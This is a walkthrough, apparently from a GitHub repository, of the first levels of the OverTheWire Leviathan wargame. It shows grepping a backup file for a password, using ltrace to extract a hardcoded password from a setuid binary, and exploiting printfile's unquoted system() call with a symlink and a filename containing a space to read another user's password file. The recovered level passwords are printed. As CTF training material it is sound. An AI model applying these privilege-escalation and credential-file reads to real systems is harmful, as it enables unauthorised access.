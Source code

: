 # leviathan
https://overthewire.org/wargames/leviathan/

```
Dare you face the lord of the oceans?
Leviathan is a wargame that has been rescued from the demise of intruded.net, previously hosted on leviathan.intruded.net. Big thanks to adc, morla and reth for their help in resurrecting this game!

What follows below is the original description of leviathan, copied from intruded.net:

Summary:
Difficulty:     1/10
Levels:         8
Platform:   Linux/x86

Author:
Anders Tonfeldt

Special Thanks:
We would like to thank AstroMonk for coming up with a replacement idea for the last level,
deadfood for finding a leveljump and Coi for finding a non-planned vulnerability.

Description:
This wargame doesn't require any knowledge about programming - just a bit of common
sense and some knowledge about basic *nix commands. We had no idea that it'd be this
hard to make an interesting wargame that wouldn't require programming abilities from 
the players. Hopefully we made an interesting challenge for the new ones.
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0
Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
```

## 0->1
This level involves `grep`-ing a directory.

```bash
% ssh leviathan.labs.overthewire.org -l leviathan0 -p 2223

leviathan0@gibson:~$ ls -alh
total 24K
drwxr-xr-x  3 root       root       4.0K Apr 10 14:23 .
drwxr-xr-x 83 root       root       4.0K Apr 10 14:24 ..
drwxr-x---  2 leviathan1 leviathan0 4.0K Apr 10 14:23 .backup
-rw-r--r--  1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root       3.7K Mar 31  2024 .bashrc
-rw-r--r--  1 root       root        807 Mar 31  2024 .profile
leviathan0@gibson:~$ cd .backup/
leviathan0@gibson:~/.backup$ ls -lh
total 132K
-rw-r----- 1 leviathan1 leviathan0 131K Apr 10 14:23 bookmarks.html
leviathan0@gibson:~/.backup$ grep leviathan bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

## 1->2
This level introduces us to two commands, ltrace and strings.


```bash
% ssh leviathan.labs.overthewire.org -l leviathan1 -p 2223
leviathan1@gibson:~$ ls -lh
total 16K
-r-sr-x--- 1 leviathan2 leviathan1 15K Apr 10 14:23 check
leviathan1@gibson:~$ file check
check: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=990fa9b7d511205601669835610d587780d0195e, for GNU/Linux 3.2.0, not stripped
leviathan1@gibson:~$ whoami
leviathan1
leviathan1@gibson:~$ ./check
password: test
Wrong password, Good Bye ...
leviathan1@gibson:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
printf("password: ")                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: test
)                                                   = 116
getchar(0, 116, 0x786573, 0x646f67)                                                 = 101
getchar(0, 0x6574, 0x786573, 0x646f67)                                              = 115
strcmp("tes", "sex")                                                                = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                = 29
+++ exited (status 0) +++
leviathan1@gibson:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
```


## 2->3
This level involves creating a symbolic link (symlink) which enables privilege escalation by exploiting how the printfile binary handles file inputs.

By creating a symlink and calling the printfile binary with a filename that includes a space, you leverage the improper input handling in the program. This combination allows access to files that leviathan2 wouldn’t normally have permissions for, thus effectively "hacking" the system to print the sensitive file's contents.

Feeding two inputs to the printfile binary gives us several insights into how the binary processes inputs and how it manages to retrieve file contents. The behavior of the binary with two inputs shows that it accepts and processes only the first argument. The first step in the binary’s execution is to perform an access check for the first file. The `snprintf` call shows how the command is constructed. The calls to `geteuid()` reveal the effective user ID during execution. By running `ltrace`, you can infer potential vulnerabilities.

The fact that input parsing only considers the first file suggests that if unexpected input patterns (like filenames with spaces) are used, it might exploit the way the binary interprets or constructs file names. This detail can lead to privilege escalation tactics.


```bash
% ssh leviathan.labs.overthewire.org -l leviathan2 -p 2223

leviathan2@gibson:~$ ls -alh
total 36K
drwxr-xr-x  2 root       root       4.0K Apr 10 14:23 .
drwxr-xr-x 83 root       root       4.0K Apr 10 14:24 ..
-rw-r--r--  1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root       3.7K Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan3 leviathan2  15K Apr 10 14:23 printfile
-rw-r--r--  1 root       root        807 Mar 31  2024 .profile
leviathan2@gibson:~$ file printfile 
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=79cfa8b87bb611f9cf6d6865010709e2ba5c8e3f, for GNU/Linux 3.2.0, not stripped
leviathan2@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$ ./printfile .bash_logout 
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
leviathan2@gibson:~$ ./printfile .bash_logout .profile
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
leviathan2@gibson:~$ ltrace ./printfile .bash_logout .profile
__libc_start_main(0x80490ed, 3, 0xffffd464, 0 <unfinished ...>
access(".bash_logout", 4)                                                           = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout")               = 21
geteuid()                                                                           = 12002
geteuid()                                                                           = 12002
setreuid(12002, 12002)                                                              = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                              = 0
+++ exited (status 0) +++
leviathan2@gibson:~$ mktemp -d
/tmp/tmp.kDdtlswch4
leviathan2@gibson:~$ cd /tmp/tmp.kDdtlswch4
leviathan2@gibson:/tmp/tmp.kDdtlswch4$ touch "test file.txt"
leviathan2@gibson:/tmp/tmp.kDdtlswch4$ cd ~
leviathan2@gibson:~$ ./printfile /tmp/tmp.kDdtlswch4/test\ file.txt 
/bin/cat: /tmp/tmp.kDdtlswch4/test: Permission denied
/bin/cat: file.txt: No such file or directory
leviathan2@gibson:~$ ./printfile /tmp/tmp.kDdtlswch4/"test file.txt"
/bin/cat: /tmp/tmp.kDdtlswch4/test: Permission denied
/bin/cat: file.txt: No such file or directory
leviathan2@gibson:~$ ltrace ./printfile /tmp/tmp.kDdtlswch4/"test file.txt"
__libc_start_main(0x80490ed, 2, 0xffffd434, 0 <unfinished ...>
access("/tmp/tmp.kDdtlswch4/test file.tx"..., 4)                                    = 0
snprintf("/bin/cat /tmp/tmp.kDdtlswch4/tes"..., 511, "/bin/cat %s", "/tmp/tmp.kDdtlswch4/test file.tx"...) = 42
geteuid()                                                                           = 12002
geteuid()                                                                           = 12002
setreuid(12002, 12002)                                                              = 0
system("/bin/cat /tmp/tmp.kDdtlswch4/tes".../bin/cat: /tmp/tmp.kDdtlswch4/test: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                              = 256
+++ exited (status 0) +++
leviathan2@gibson:~$ cd /tmp/tmp.kDdtlswch4
leviathan2@gibson:/tmp/tmp.kDdtlswch4$ ln -s /etc/leviathan_pass/leviathan3 ./test
leviathan2@gibson:/tmp/tmp.kDdtlswch4$ ls -alh
total 232K
drwx------   2 leviathan2 leviathan2 4.0K May 24 02:25 .
drwxrwx-wt 559 root       root       224K May 24 02:25 ..
lrwxrwxrwx   1 leviathan2 leviathan2   30 May 24 02:25 test -> /etc/leviathan_pass/leviathan3
-rw-rw-r--   1 leviathan2 leviathan2    0 May 24 02:22 test file.txt
leviathan2@gibson:/tmp/tmp.kDdtlswch4$ cd ~
leviathan2@gibson:~$ ./printfile /tmp/tmp.kDdtlswch4/"test file.txt"
/bin/cat: /tmp/tmp.kDdtlswch4/test: Permission denied
/bin/cat: file.txt: No such file or directory
leviathan2@gibson:~$ chmod 777 /tmp/tmp.kDdtlswch4
leviathan2@gibson:~$ ./printfile /tmp/tmp.kDdtlswch4/"test file.txt"
f0n8h2iWLP
/bin/cat: file.txt: No such file or directory
```

